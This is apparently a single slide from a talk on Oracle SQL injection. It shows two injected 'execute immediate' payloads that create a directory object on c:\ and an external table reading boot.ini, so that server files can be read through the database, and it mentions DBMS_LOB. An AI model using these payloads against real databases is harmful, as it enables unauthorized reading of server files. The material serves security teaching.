

# Oracle
External Tables
; execute immediate 'Create Directory A4A9308C As ''c:\'' '; end; --
 ; execute immediate 'Create table A737D141 ( datos varchar2(4000) ) organization external (TYPE ORACLE_LOADER default directory A4A9308C access parameters ( records delimited by newline ) location (''boot.ini''))'; end;--
Only Plain Text files
DBMS_LOB package